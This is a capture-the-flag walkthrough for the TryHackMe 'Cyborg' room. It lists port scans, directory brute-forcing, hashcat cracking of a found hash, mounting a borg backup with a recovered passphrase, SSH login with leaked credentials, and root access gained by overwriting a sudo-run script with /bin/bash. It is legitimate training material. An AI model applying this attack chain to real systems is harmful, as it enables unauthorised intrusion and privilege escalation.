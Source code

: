 # Cyborg

**Room Link:** [https://tryhackme.com/room/cyborgt8](https://tryhackme.com/room/cyborgt8)

## Scanning

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>







### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>



### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

## Hash

**Link:** [https://hashcat.net/wiki/doku.php?id=example\_hashes](https://hashcat.net/wiki/doku.php?id=example\_hashes)

<figure><img src="../../.gitbook/assets/image (136).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
hashcat -m 1600 password /usr/share/wordlists/rockyou.txt
hashcat -m 1600 password --show
```

<figure><img src="../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
sudo apt install borgbackup -y
mkdir backup
borg mount home/field/dev/final_archive backup
Password: squidward
```

Within the backup I can see credentials for alex

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh alex@$VICTIM
Password: S3cretP@s3
```

<figure><img src="../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

**Victim**

```
chmod 777 /etc/mp3backups/backup.sh
echo "/bin/bash" > /etc/mp3backups/backup.sh
sudo /etc/mp3backups/backup.sh 
```

<figure><img src="../../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>











